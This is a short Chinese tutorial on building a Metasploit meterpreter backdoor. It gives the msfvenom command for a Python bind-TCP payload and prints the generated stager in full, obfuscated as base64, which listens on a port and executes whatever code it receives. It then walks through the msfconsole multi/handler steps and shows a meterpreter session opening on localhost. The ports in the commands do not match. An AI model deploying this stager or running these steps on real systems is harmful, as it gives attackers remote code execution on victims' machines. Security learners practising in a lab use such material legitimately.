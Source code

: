 # Meterpreter of Metasploit教程

## Backdoor生成

### meterpreter of python
使用MSF套件中msfvenom进行后门载荷的生成
>-p 选择payload
>lport 监听端口
>-o 载荷生成位置
```
msfvenom -p  python/meterpreter/bind_tcp lport=6666 -o /tmp/re111
```
生成python文件如下:
```
exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHpsaWIsYmFzZTY0LHNvY2tldCxzdHJ1Y3QKYj1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQpiLmJpbmQoKCcwLjAuMC4wJyw4ODg4KSkKYi5saXN0ZW4oMSkKcyxhPWIuYWNjZXB0KCkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyh6bGliLmRlY29tcHJlc3MoYmFzZTY0LmI2NGRlY29kZShkKSkseydzJzpzfSkK')[0]))
```

## Exploit
使用MSF套件中msfconsole，启动
```
msfconsole
```
### 通用的Backdoor会话管理模块

```
msf6> use exploit/multi/handler
#设置payload
msf6 exploit(multi/handler) > set payload python/meterpreter/bind_tcp
#设置RHOST（目标地址）
msf6 exploit(multi/handler) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
#设置LPORT（目标后门服务监听端口）
msf6 exploit(multi/handler) > set LPORT 8888
LPORT => 8888
#执行
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 127.0.0.1:8888
[*] Sending stage (39800 bytes) to 127.0.0.1
[*] Meterpreter session 3 opened (127.0.0.1:7812 -> 127.0.0.1:8888 ) at 2022-02-16 11:26:51 +0800

meterpreter >
```
